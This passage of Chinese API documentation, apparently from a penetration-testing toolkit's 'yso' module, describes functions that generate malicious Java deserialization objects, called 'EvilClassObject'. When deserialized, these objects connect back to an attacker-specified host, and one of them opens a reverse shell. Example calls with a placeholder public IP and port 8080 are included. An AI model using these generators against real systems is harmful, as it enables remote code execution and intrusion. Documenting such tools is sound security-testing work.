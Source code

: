 port：要设置的 tcpReversePort 的port。

options：一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。

返回：成功时返回javaclassparser.ClassObject对象及nil错误，失败时返回nil及相应错误。

Example:
```
host = "公网IP"
token = uuid()
classObject, err := yso.GenerateTcpReverseEvilClassObject(host,8080,yso.tcpReverseToken(token),additionalOptions...) // 生成并配置TcpReverse Java对象
```


#### 定义

`GenerateTcpReverseEvilClassObject(host string, port int, options ...GenClassOptionFun) (*javaclassparser.ClassObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| host | `string` |   |
| port | `int` |   |
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*javaclassparser.ClassObject` |   |
| r2 | `error` |   |


### GenerateTcpReverseShellEvilClassObject

#### 详细描述
GenTcpReverseShellClassObject

GenerateTcpReverseShellEvilClassObject 生成一个使用TcpReverseShell类模板的javaclassparser.ClassObject对象，

这个函数结合使用 useTcpReverseShellTemplate ，tcpReverseShellHost ，tcpReverseShellPort 函数， 以生成在反序列化时会反连指定的 tcpReverseShellHost ，tcpReverseShellPort 的Java对象。

host：要设置的 tcpReverseShellHost 的host。

port：要设置的 tcpReverseShellPort 的port。

options：一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。

返回：成功时返回javaclassparser.ClassObject对象及nil错误，失败时返回nil及相应错误。

Example:
```
host = "公网IP"
classObject, err := yso.GenerateTcpReverseShellEvilClassObject(host,8080,additionalOptions...) // 生成并配置TcpReverseShell Java对象
```
